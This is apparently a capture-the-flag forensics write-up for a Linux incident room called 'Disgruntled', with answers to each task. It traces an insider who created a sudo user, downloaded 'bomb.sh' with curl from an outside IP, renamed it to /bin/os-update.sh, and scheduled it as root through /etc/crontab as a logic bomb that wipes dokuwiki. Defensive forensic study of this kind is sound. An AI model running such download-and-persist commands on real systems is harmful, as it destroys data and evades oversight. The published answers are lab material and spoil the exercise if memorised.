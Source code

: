 # Disgruntled

## [Task 1] Introduction

Let's take a look at another incident. An employee from an IT department has been arrested by the police, and they were running a successful phishing operation as a side gig. We need to see if anything malicious was done to any of that organization's assets. The VM attached in this room will open in Split Screen View.

## [Task 2] Linux Forensics Review

This room requires some basic knowledge of Linux and the material present in the Linux Forensics room. The cheatsheet attached to this task can help catch you up to speed.

## [Task 3] Nothing Suspicious...So Far

The attached VM is the machine that the disgruntled IT user last worked on. We need to determine if there's anything present that could be concerning. A good place to start would be to determine if any suspicious commands were run. The task clues us in on privileged commands; we can see these by looking at `/var/log/auth.log*`.  Thus, we can start by running `/var/log/auth.log* | grep -i COMMAND;`. Many of these commands pertain to the setup of `dokuwiki`, and one of them involves it being explicitly installed with `apt`:

![image](https://github.com/user-attachments/assets/b4d82fdd-7bf6-4cea-be7c-c17e45bc7a11)

**[Task 3, Question 1] The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?** - `/usr/bin/apt install dokuwiki`

The screenshot above also tells us what the working directory was at the time of the command being executed; the present working directory (PWD) is `/home/cybert`.

**[Task 3, Question 2] What was the present working directory (PWD) when the previous command was run?** - `/home/cybert`

## [Task 4] Let's See If You Did Anything Bad

We know that the user was only supposed to install a service on the machine, so our next step in the investigation might be to find anything unrelated to service installation and setup. Further down in the logs we see something pretty interesting:

![image](https://github.com/user-attachments/assets/1c1dc30b-6133-4ffd-9326-ae803c830f23)

The `adduser` command was ran, and a new user was set up on the machine. Curious!

**[Task 4, Question 1] Which user was created after the package from the previous task was installed?** - `it-admin`

Now we're told that a user was given `sudo` privileges, which requires an update to the `sudoers` file. Incidentally, updates to this particular file require the command `visudo` to be run, so we should check the logs for that. It turns out that this command _was_ run:

![image](https://github.com/user-attachments/assets/32ec97a7-1ec8-404f-9e95-69ac4b7a7f99)

**[Task 4, Question 2] A user was then later given `sudo` privileges. When was the `sudoers` file updated? (Format: `Month Day HH:MM:SS`)** - `Dec 28 06:27:34`

And right beneath the execution of `visudo`, we see something...more concerning:

![image](https://github.com/user-attachments/assets/029b83fa-75b3-4a9b-b9d8-8e70d60fd486)

**[Task 4, Question 3] A script file was opened using the `vi` text editor. What is the name of this file?** - `bomb.sh`

## [Task 5] Bomb Has Been Planted. But When and Where?

What's that file doing there?! The fact that a script file was created is incriminating enough, though we need to figure out where it came from and what it contains. Here's the kicker: the file isn't present on the system anymore. So what can we do?

Well, we know that the user `it-admin` was created. It's possible they were given `sudo` privileges as well. So maybe there's something in their command execution history that'll shed some light on this situation? We can check by running `cat /home/it-admin/.bash_history` and seeing what comes up:

![image](https://github.com/user-attachments/assets/5d70a936-df9c-4444-9059-657e0de1d98c)

Fascinating! This user indeed got the script onto the system.

**[Task 5, Question 1] What is the command used that created the file `bomb.sh`?** - `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

We're told that it was renamed and moved to a different directory. While we don't see anything suggesting it got moved from the `it-admin` user's `.bash_history`, we _do_ see that this same user was messing around with `/etc/crontab`. Given that this user has sudo privileges, they can alter the crontabs to launch scheduled tasks, including scheduling script execution. So, let's take a look at `/etc/crontab` and see if there's any clues there:

![image](https://github.com/user-attachments/assets/990e24fa-4bdc-4c72-8e63-afb9c56ddcf4)

Interesting... There's an `os-update.sh` script now. It _is_ also worth checking the Vim history (`/home/it-admin/.viminfo`) to make sure that there is a connection between the two script files. Running `cat /home/it-admin/.viminfo` yields the following:

![image](https://github.com/user-attachments/assets/b5453e2c-eac9-431c-893e-73cb025cede5)

Vim has the capability of saving a file to a different location with a different name. This is evidently what happened here, and the user set it to run at a predefined time by editing `/etc/crontab`.

**[Task 5, Question 2] The file was renamed and moved to a different directory. What is the full path of the file now?** - `/bin/os-update.sh`

If we run `date -r /bin/os-update.sh`, we can see the date that this file was last modified.

![image](https://github.com/user-attachments/assets/a09dacc7-7fcb-4acf-9dc9-0fe7413294b5)

I tried to use `ls -la` and its variants to see if I could get the hours and minutes, but for some reason it wasn't working for me in the VM. This will do the job just fine for us, though:

**[Task 5, Question 3] When was the file from the previous question last modified? (Format: Month Day HH:MM)** - Dec 28 06:29

And now, the moment of truth. What's inside this script? If we run `cat /bin/os-update.sh`, we can find out:

![image](https://github.com/user-attachments/assets/6fc47657-cac3-406d-9349-a41e8351df59)

Seems like this program is going to remove everything from the `dokuwiki` directory once certain conditions are met (namely, the user not logging in after thirty days), and then leave a note called `goodbye.txt`. Looks like we've got a logic bomb!

**[Task 5, Question 4] What is the name of the file that will get created when the file from the first question executes?** - `goodbye.txt`

## [Task 6] Following the Fuse

Now we have a file and we have a motive (the employee being, well, _disgruntled_). So now we just need to figure out how this file will be executed. Earlier we briefly discussed the contents of `/etc/crontab`, and how they were edited to make this script run at a predefined time each day. The line in question is `0 8 * * * root /bin/os-update.sh`. This means that the script will run at `8:00` on any day of any month. Note that the hour can range from `0-23` in `/etc/crontab`. This means the script will run at 8 in the morning.

**[Task 6, Question 1] At what time will the malicious file trigger? (Format HH:MM AM/PM)** - 08:00 AM

